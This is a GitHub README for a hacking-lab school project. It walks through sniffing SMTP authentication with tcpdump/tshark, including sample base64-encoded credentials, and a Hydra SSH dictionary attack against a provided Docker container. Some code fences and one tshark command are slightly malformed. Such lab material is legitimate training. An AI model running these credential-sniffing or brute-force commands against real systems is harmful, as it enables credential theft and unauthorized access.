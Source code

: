 # alx-attack_is_the_best_defense

A repo for the optional project Attack is the best defense
DevOps
Scripting
Hacking

## Task 0: ARP Spoofing and Sniffing Unencrypted Traffic

### Prerequisites

Before proceeding, ensure you have the required tools installed:

1. **Download the Program:**

   - Download the provided program:
     ```bash
     curl -O https://s3.amazonaws.com/intranet-projects-files/holbertonschool-sysadmin_devops/264/user_authenticating_into_server
     ```

2. **Install `tcpdump`:**

   - Update your package list:
     ```bash
     sudo apt-get update
     ```
   - Install `tcpdump`:
     ```bash
     sudo apt-get install tcpdump
     ```

3. **Install `tshark`:**
   - Install `tshark` for more human-readable output:
     ```bash
     sudo apt install tshark
     ```

### Intercepting Data

Now you're ready to intercept data between the `user_authenticating_into_server` program and the SendGrid server.

1. **Run `tcpdump`:**

   - Execute the following command to capture network traffic:
     ```bash
     sudo tcpdump -i eth0 -n -s 0 -A 'host smtp.sendgrid.net and port 587' -w sendgrid_traffic.pcap
     ```
     - `-i eth0`: Replace `eth0` with the network interface your program uses.
     - `-n`: Display numeric IP addresses and port numbers instead of resolving hostnames and services.
     - `-s 0`: Capture the entire packet.
     - `-A`: Display packet data (payload) in ASCII format.
     - `'host smtp.sendgrid.net and port 587'`: Capture traffic to and from SendGrid's SMTP server on port 587.
     - `-w sendgrid_traffic.pcap`: Save captured packets to a file for later analysis.

2. **Run Your Program:**

   - In a second Ubuntu terminal, give permission and then run your program:
     ```bash
     sudo chmod +x user_authenticating_into_server
     sudo ./user_authenticating_into_server
     ```

3. **Capture and Analyze:**
   - Wait for your program to execute, then interrupt the first terminal using `CTRL-C`.
   - You'll have a `sendgrid_traffic.pcap` file that you can analyze.

### Analyzing the Capture

You can analyze the capture file using either `tcpdump` or `tshark`:

- Using `tcpdump`:
  ```bash
  tcpdump -r sendgrid_traffic.pcap
  ```
- Using `tshark` for more human-readable output while your script is running:

  ````bash
  tshark sudo tshark -i wlp108s0
  ```

  ```bash
  15 3.999733 172.31.145.221 → 54.228.39.88 SMTP 80 C: User: bXlsb2dpbg==
  16 4.069955 54.228.39.88 → 172.31.145.221 TCP 66 587 → 57152 [ACK] Seq=196 Ack=63 Win=32256 Len=0 TSval=2327286244 TSecr=1468075274
  17 4.069956 54.228.39.88 → 172.31.145.221 SMTP 84 S: 334 UGFzc3dvcmQ6
  18 4.070087 172.31.145.221 → 54.228.39.88 TCP 66 57152 → 587 [ACK] Seq=63 Ack=214 Win=64128 Len=0 TSval=1468075345 TSecr=2327286244
  19 6.001628 172.31.145.221 → 54.228.39.88 SMTP 88 C: Pass: bXlwYXNzd29yZDk4OTgh
  ````

  This part of the output shows the authentication process with the information:

  User: bXlsb2dpbg==

  Pass: bXlwYXNzd29yZDk4OTgh

  Credentials are [Base64 encoded](https://www.base64decode.org/), so the decoded information would be:

  User: \*\*\*

  Pass: \*\*\*

## Task 1: Dictionary Attack

Performing a dictionary attack using Hydra to guess a password for an SSH account.

## Prerequisites

- Docker: [Install Docker](https://docs.docker.com/get-docker/)

## Setup

1. Pull and run the Docker image `sylvainkalache/264-1` with the following command:

   ```bash
   docker run -p 2222:22 -d -ti sylvainkalache/264-1
   ```

2. Start the Docker container by replacing `<container_id>` with the ID of the newly created `sylvainkalache/264-1` container:

   ```bash
   docker start -ai <container_id>
   ```

3. Install Hydra:

   ```bash
   sudo apt-get install hydra
   ```

4. Download a potential password list in `.txt` format. You can find one in the [SecLists library](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt).
   rockyou.txt

   - [SOURCE 1](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz
   - [SOURCE 2](https://www.kaggle.com/datasets/wjburns/common-password-list-rockyoutxt)

5. To save time and resources, isolate passwords with 11 characters from your password list:

   ```bash
   grep -oE '\b\w{11}\b' all_passwords.txt > 11_char_passwords.txt
   ```

## Running the Attack

Run Hydra with the specified requirements:

```bash
hydra -l sylvain -P 11_char_passwords.txt ssh://127.0.0.1 -t 5
```

- `-l sylvain`: Specifies the target username as "sylvain." This is the username for which you are attempting to guess the password.

- `-P 11_char_passwords.txt`: Specifies the password list or wordlist you are using for the attack. In this case, the wordlist contains passwords with 11 characters. Hydra will try each password from this list in an attempt to gain access to the SSH service.

- `ssh://127.0.0.1`: Specifies the target SSH service running on the local host (127.0.0.1). Hydra will attempt to log in to this SSH service using the provided username and the passwords from the wordlist.

- `-t 5`: This option specifies the number of threads you want to use in parallel for the attack. In this case, you've specified 5 threads

Please practice patience as hydra tries every password in the file until it finds the right one. Once successful, it will return an output similar to:

```bash
[22][ssh] host: 127.0.0.1   login: ***   password: ***
1 of 1 target successfully completed, 1 valid password found
```
